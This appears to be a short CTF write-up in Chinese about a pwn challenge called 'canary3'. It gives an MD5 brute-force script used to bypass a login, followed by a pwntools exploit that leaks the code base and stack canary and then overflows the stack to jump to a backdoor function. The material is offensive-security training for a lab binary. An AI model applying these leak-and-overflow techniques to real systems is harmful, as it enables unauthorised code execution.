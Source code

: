 ```
import os
import hashlib
import time

while True:
    md5 = hashlib.md5()
    key = os.urandom(0x20)
    md5.update(key)
    res = md5.hexdigest()
    if(res[:2]=="00"):
        print("find:",res,key)
        break 
```

之后输入这个和admin即可。
后面就是常规的泄露code base和canary，由于程序中有backdoor函数，只需要调用就可以了
exp

```
from pwn import *
io = process('./canary3')
elf=ELF('./canary3')
libc=elf.libc
context.log_level='debug'

passwd = b'\x81,t.\xb5\x84J\x94\xa0y\xb6\x97\x02\xd1u1Or\x8c\xe9\x1bq\xf9\xe4\xa8\x82\x9f!\x860\xe1\x10'
uname = "admin"
io.recvuntil('username:')
io.send(uname)
io.recvuntil('password:')
io.send(passwd)

sleep(0.5)

io.sendline(str(2))
payload = 'a'
io.send(payload)

io.sendline(str(1))
code_info = u64(io.recvuntil('\x55')[-6:].ljust(8,'\x00'))
code_base = code_info - 0x2561
print "code_base----->" + hex(code_base)

io.sendline(str(2))
payload='a'*0x17+'b'*2
io.send(payload)
sleep(0.5)

io.sendline(str(1))
io.recvuntil('aabb')
canary = u64(io.recv(7).ljust(8,'\x00'))
canary = canary<<8
print "canary----->" + hex(canary)

backdoor = 0x239F

payload2='a'*0x18+p64(canary)+p64(0)+p64(code_base+backdoor)

io.sendline(str(2))

io.send(payload2)

io.sendline(str(3))
```